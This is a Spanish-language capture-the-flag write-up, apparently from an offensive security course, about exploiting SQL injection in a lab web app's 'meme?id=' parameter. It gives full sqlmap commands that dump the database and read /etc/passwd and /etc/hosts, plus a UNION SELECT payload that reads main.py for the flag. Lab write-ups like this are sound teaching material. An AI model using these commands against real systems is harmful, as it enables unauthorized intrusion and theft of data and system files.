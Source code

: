 # Ejercicio 3

Cuando ingresamos a la pagina, vemos que nos muestra varias imagenes, pero hay una en particular que no se muestra

Si inspeccionamos esta imagen, vemos que su `src` es `meme?id=5`

Yendo a esa url, vemos que nos salta un error 500.

Si cambiamos el id por alguno de los valores `1, 2, 3, 4` vemos que se muestran las imagenes del HOME en 'formato texto'

En ese momento corri `sqlmap` sobre la url para ver si el parametro `id` era vulnerable, y me salio que lo era a time-based injection

Gracias a la herramienta, automaticamente pude averiguar el nombre de la base de datos, nombre de las tablas, etc.

```
sqlmap -u "http://143.0.100.198:5010/meme?id=1" --dbs
sqlmap -u "http://143.0.100.198:5010/meme?id=1" -D memes_db --tables
sqlmap -u "http://143.0.100.198:5010/meme?id=1" -D memes_db -T memes --dump
```

Ahora entendia porque no podia ver la imagen con `id=5`, justamente, su filename no tenia sentido

| id  | title  | parent  | filename  |
|---|---|---|---|
| 1  | Gondor Captain | 1      | files/boromir.jpg |
| 2  | GranMa         | 1      | files/cookies.jpg |
| 3  | You            | 1      | files/hacker.jpg  |
| 4  | Not too fine   | 1      | files/fine.png    |
| 5  | Diegote        | 1      | klpsrmfazznufesg  |

Ahi tuve otra idea mas. Me imagine que lo que hacia la url, era obtener el path del archivo a mostrar. Luego, yo podria supuestamente cargar cualquier archivo si proporcionaba bien el path.

Esto no me funciono con archivos comunes que quise encontrar, y entonces volvi a usar `sqlmap` para leer algunos archivos del sistema

Por ejemplo, lei el /etc/passwd y /etc/hosts de la maquina

```
sqlmap -u "http://143.0.100.198:5010/meme?id=1" --file-read=/etc/passwd
sqlmap -u "http://143.0.100.198:5010/meme?id=1" --file-read=/etc/hosts
```

No obstante, en este momento ya estaba perdido, y solo pude continuar gracias a la pista proporcionada.

Simplemente hice un script para probar todas las palabras del archivo proporcionado en el zip.

De esta manera, encontre que podia acceder a `http://143.0.100.198:5010/meme?id=0 UNION SELECT 'main.py'`

Justamente en ese archivo, se encontraba la flag `SEGURIDAD-OFENSIVA-FAMAF`
